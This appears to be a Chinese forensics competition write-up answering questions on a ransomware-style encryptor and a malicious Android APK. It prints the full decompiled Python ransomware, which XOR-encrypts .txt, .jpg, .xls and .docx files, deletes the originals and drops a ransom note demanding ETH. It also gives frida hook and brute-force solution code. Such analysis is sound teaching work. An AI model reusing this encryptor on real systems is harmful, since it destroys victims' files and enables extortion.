### 41. 分析加密程序，编译该加密程序使用的语言是

根据在QQ邮箱中的记录，在附件中找到`数据下载地址.docx_encrypted`文件，在文件目录中对encrypt关键词进行搜索，可以发现加解密程序和加密文件都在检材二的D盘根目录



**方法1：**使用**Detect It Easy**查看exe发现程序是pyinstaller生成的可执行文件，于是得出编译该加密程序使用的语言是python


**方法2：**用**ida**反编译加密程序，查看字符串发现了很多py后缀，确定使用的语言就是python

 

**方法3：**将恶意程序提交到**微步云沙箱**，自动分析后得出其引擎为python

 

### 42. 分析加密程序，它会加密哪些扩展名的文件？

**方法1：**在线反编译：https://www.toolnb.com/tools/pyc.html

**方法2：**PyInstaller打包的程序可以用Github上的开源工具[pyinstxtrator](https://github.com/extremecoders-re/pyinstxtractor)来解包，下载后为方便起见，将pyinstxtractor.py复制到与exe在同一目录下，执行命令`python3 pyinstxtractor.py encrypt_file.exe`，在执行上述命令后生成的`encrypt_file.exe_extracted`目录下，找到与原 exe 名相同的 pyc 文件，即`encrypt_file_1.pyc`文件,用 [uncompyle6](https://github.com/rocky/python-uncompyle6) 反编译

**方法3：**找这四种文件来试一下，看看能不能被加密

反编译后得到源代码为

```python
import time
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5 as Cipher_pkcs1_v1_5
import os
pubkey = '-----BEGIN PUBLIC KEY-----\nMIIBIzANBgkqhkiG9w0BAQEFAAOCARAAMIIBCwKCAQEAx5JF4elVDBaakgGeDSxI\nCO1LyyZ6B2TgR4DNYiQoB1zAyWPDwektaCfnvNeHURBrw++HvbuNMoQNdOJNZZVo\nbHVZh+rCI4MwAh+EBFUeT8Dzja4ZlU9E7jufm69TQS0PSseIiU/4Byd2i9BvIbRn\nHLFZvi/VXphGeW0qVeHkQ3Ll6hJ2fUGhTsuGLc1XXHfiZ4RbJY/AMnjYPy9CaYzi\nSOT4PCf/O12Kuu9ZklsIAihRPl10SmM4IRnVhZYYpXedAyTcYCuUiI4c37F5GAhz\nRDFn9IQ6YQRjlLjuOX8WB6H4NbnKX/kd0GsQP3Zbogazj/z7OM0Y3rv3T8mtF6/I\nkwIEHoau+w==\n-----END PUBLIC KEY-----\n'
msg = "SOMETHING WENT WRONG,PLEASE CONTACT YOUR SYSTEM ADMINISTRATOR!\nHe can help you to understand whats happened.\nIf he can't help you,contact us via email:\naa1028@forensix.cn\nale@forensix.cn\nHURRY UP!WE HAVE ANTIDOTE FOR YOUR FILES!DISCOUNT 20%FOR CLIENTS,WHO CONTACT US IN THE SAME DAY!\nYou can attach 2 files (text or picture)to check our honest intentions,we will heal them and send\nback.\nPlease pay 0.618 ETH\nThe wallet address：0xef9edf6cdacb7d925aee0f9bd607b544c5758850\n************************************\n"

class XORCBC:

    def __init__(self, key: bytes):
        self.key = bytearray(key)
        self.cur = 0

    def encrypt(self, data: bytes) -> bytes:
        data = bytearray(data)
        for i in range(len(data)):
            tmp = data[i]
            data[i] ^= self.key[self.cur]
            self.key[self.cur] = tmp
            self.cur = (self.cur + 1) % len(self.key)

        return bytes(data)


print('加密程序V1.0')
print('文件正在加密中~~~~~~~~~~~~~~~~~~\n')

def run_finall():
    for filepath, dirnames, filenames in os.walk(os.getcwd()):
        for filename in filenames:
            if filename != 'encrypt_file.py' and filename != 'decrypt_file.py' and '_encrypted' not in filename:
                ExtensionPath = os.path.splitext(filename)[(-1)]
                if '.txt' == ExtensionPath or '.jpg' == ExtensionPath or '.xls' == ExtensionPath or '.docx' == ExtensionPath:
                    time.sleep(3)
                    data_file = os.path.join(filepath, filename)
                    rsakey = RSA.import_key(pubkey)
                    cipher = Cipher_pkcs1_v1_5.new(rsakey)
                    xor_key = os.urandom(16)
                    xor_obj = XORCBC(xor_key)
                    outf = open(data_file + '_encrypted', 'wb')
                    encrypted_xor_key = cipher.encrypt(xor_key)
                    outf.write(encrypted_xor_key)
                    buffer_size = 4096
                    with open(data_file, 'rb') as (f):
                        while True:
                            data = f.read(buffer_size)
                            if not data:
                                break
                            outf.write(xor_obj.encrypt(data))

                    outf.close()
                    os.remove(data_file)


run_finall()

def redme():
    try:
        dir = os.path.join(os.path.expanduser('~'), 'Desktop')
        print(dir)
        with open(dir + '/!READ_ME.txt', 'w') as (ff):
            ff.write(msg)
    except:
        dir1 = os.getcwd()
        print(dir1)
        with open(dir1 + '/!READ_ME.txt', 'w') as (ff):
            ff.write(msg)


print('\n加密完成~~~~~~~~~~~~~~~~~~')
os.system('pause')
```

阅读代码即可发现在run_finall函数中会对`.txt`,`.jpg`,`.xls`,`.docx`四种文件进行加密



### 43. 分析加密程序，是通过什么算法对文件进行加密的？

答案：异或

阅读代码即可发现在run_finall函数中最后调用了XORCBC类的encrypt方法进行了加密


而该encrypt方法对数据进行了异或运算



### 44. 分析加密程序，其使用的非对称加密方式公钥后5位为？

同样可以在代码中发现publickey如下

```
pubkey = '-----BEGIN PUBLIC KEY-----\nMIIBIzANBgkqhkiG9w0BAQEFAAOCARAAMIIBCwKCAQEAx5JF4elVDBaakgGeDSxI\nCO1LyyZ6B2TgR4DNYiQoB1zAyWPDwektaCfnvNeHURBrw++HvbuNMoQNdOJNZZVo\nbHVZh+rCI4MwAh+EBFUeT8Dzja4ZlU9E7jufm69TQS0PSseIiU/4Byd2i9BvIbRn\nHLFZvi/VXphGeW0qVeHkQ3Ll6hJ2fUGhTsuGLc1XXHfiZ4RbJY/AMnjYPy9CaYzi\nSOT4PCf/O12Kuu9ZklsIAihRPl10SmM4IRnVhZYYpXedAyTcYCuUiI4c37F5GAhz\nRDFn9IQ6YQRjlLjuOX8WB6H4NbnKX/kd0GsQP3Zbogazj/z7OM0Y3rv3T8mtF6/I\nkwIEHoau+w==\n-----END PUBLIC KEY-----\n'
```

### 45. 被加密文档中，FLAG1的值是(FLAG为8位字符串，如“FLAG9:QWERT123”)

以同样的方法对decrypt_file.exe进行解包与反编译，发现解密需要的密码明文写在了程序中



执行decrypt_file.exe并输入密码，对`数据下载地址.docx_encrypted`文件进行解密



得到解密后的文档,FLAG就在文档中

 

## APK部分

#### 46. 恶意APK程序的包名为

**方法一：**雷电，基本信息




**方法二：**jadx打开，查看AndroidManifest.xml



#### 47. APK调用的权限包括

**方法一：**雷电，静态权限




**方法二：**同样在AndroidManifest.xml里



#### 48. 解锁第一关所使用的FLAG2值为

先脱壳，jadx反编译。先全局搜索一下关键词`FLAG`





定位过去，大致看下逻辑，结合交互信息对应的条件可以确定是第几关。



其中OnClick函数这里有个明显的字符串对比，trim2是我们的输入，从而可以确定答案



#### 49. 解锁第二关所使用的FLAG3值为

接上题，注意到第二关这里



对`App.OooO0O0.OooO0oo`查看用例，发现在这里被初始化。



分析`OooO0O0.OooO0O0`，能发现这个函数是把十六进制串转为byte数组。



而`decrypt`是native函数，从libcipher.so中加载。







**方法一：**通过frida直接hook`App.OooO0O0.OooO0oo`的值，模拟器先把frida-server开起来（注意不要给ZTuoExchange root权限），跑脚本`frida -U -l hook.js "ZTuoExchange"`

```js
setImmediate(function () {
	Java.perform(function () {
		var app = Java.use("cn.forensix.cab.App"); // 指定类
		var OooO0oo = app.class.getField("OooO0oo"); // 指定属性
		var OooO0O0 = app.class.getField("OooO0O0").get(null); // 获取已实例化的对
象
		console.log(OooO0oo.get(OooO0O0));
	});
})
```


**方法二：**建立Android项目，把需要的文件和函数都放进来，直接调用`decrypt`和`OooO0O0.OooO0O0`获取`this.OooO0oo`的值。



> 参考：https://note.youdao.com/ynoteshare/mobile.html?id=78afde521af47956731c8185624110ec&type=note&_time=1667732405820#/

#### 50. 解锁第三关所需的KEY值由ASCII可显示字符组成，请请分析获取该KEY值

注意到这里



查看其声明



要求字符串长度为24。4个一组，通过移位将4个数构成一个大数，分成6组操作。其中try块里会触发unused异常（强制转换为Integer那里），真正的验证逻辑在catch块中。查看声明，确定`OooO`函数和`OooO0oO`数组。






可以每4个进行爆破，每个都是可见字符



```java
class Main {

    private static int[] OooO0oO = {1197727163, 1106668241, 312918615, 1828680913, 1668105995, 1728985987};

    public static void main(String[] args) {
        for (int n=0; n<6; n++) {
            boolean flag = false;
            for (int i = 0x20; i < 0x7f; i++) {
                for (int j = 0x20; j < 0x7f; j++) {
                    for (int k = 0x20; k < 0x7f; k++) {
                        for (int l = 0x20; l < 0x7f; l++) {
                            long tmp = (long) (i << 16);
                            tmp |= (long) (j << '\b');
                            tmp |= (long) (k << 24);
                            tmp |= (long) l;

                            if (((OooO(tmp, 4294967296L)[0] % 4294967296L) + 4294967296L) % 4294967296L == ((long) OooO0oO[n])) {
                                System.out.print((char) i);
                                System.out.print((char) j);
                                System.out.print((char) k);
                                System.out.print((char) l);
                                flag = true;
                                break;
                            }
                        }
                        if (flag)
                            break;
                    }
                    if (flag)
                        break;
                }
                if (flag)
                    break;
            }
        }
     }

    public boolean OooO0O0(String str) {
        if (str.length() != 24) {
            return false;
        }
        long[] jArr = new long[6];
        for (int i = 0; i < str.length() / 4; i++) {
         int i2 = i * 4;
         jArr[i] = (long) (str.charAt(i2) << 16);
         jArr[i] = jArr[i] | ((long) (str.charAt(i2 + 1) << '\b'));
         jArr[i] = jArr[i] | ((long) (str.charAt(i2 + 2) << 24));
         jArr[i] = ((long) str.charAt(i2 + 3)) | jArr[i];
//         PrintStream printStream = System.out;
//         printStream.println("buildKey:i:" + i + ",value:" + jArr[i]);
         }
        try {
            int[] iArr = {1197727043, 1106668192, 312918557, 1828680848, 1668105873, 1728985862};
            Object[] objArr = {'x', '1', ':', 'A', 'z', '}'};
            for (int i3 = 0; i3 < 6; i3++) {
                if (((long) iArr[i3]) - jArr[i3] != ((long) ((Integer) objArr[i3]).intValue())) {
                    return false;
                }
            }
            return true;
        } catch (Exception unused) {
             for (int i4 = 0; i4 < 6; i4++) {
                 if (((OooO(jArr[i4], 4294967296L)[0] % 4294967296L) + 4294967296L) % 4294967296L != ((long) this.OooO0oO[i4])) {
                     return false;
                 }
             }
            return true;
        }
    }

     private static long[] OooO(long j, long j2) {
         if (j == 0) {
             return new long[]{0, 1};
         }
         long[] OooO = OooO(j2 % j, j);
         return new long[]{((j2 / j) * OooO[0]) + OooO[1], OooO[0]};
     }
 }
```

